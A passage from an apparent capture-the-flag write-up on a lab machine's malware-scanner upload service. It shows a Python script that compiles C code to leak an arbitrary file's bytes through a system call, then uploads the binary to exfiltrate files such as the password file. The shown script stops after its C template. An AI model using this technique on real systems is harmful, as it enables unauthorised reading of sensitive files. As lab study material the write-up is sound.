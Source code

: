 Checking the first alarm it looks like it is working with `toor` being `root` in reverse.

[![020_MalScanner_passwd](/img/scanned/020_MalScanner_passwd.png)](/img/scanned/020_MalScanner_passwd.png)

```
$ echo -n '746f6f72' | xxd -r -p
toor
```

We are now able to read files on the system but converting them manually and recompiling the binary would be very time consuming. This short python script will do the work for us here. it first fills in the file we want to read into C source code and compiles it. Then it uploads the binary to the malscanner, retrieves the response, parses it and saves the exfiltrated file on our system.

```py
import requests
import uuid
import os
import sys
from binascii import unhexlify

FILENAME = sys.argv[1]
URL = 'http://10.129.159.163/scanner/upload/'

C_CODE = f'''#include "unistd.h"
#include "fcntl.h"


int main (int argc, char *argv[])
{
  char buf[0x4];
  int fd = open("{FILENAME}", O_RDONLY);
  while(read(fd, buf, 0x4) != 0)
  {
    unsigned int val = 0;
    val = *((unsigned int *)(&buf[0]));
    syscall(37, val);
  }
  close(fd);
  return 0;
}
'''

```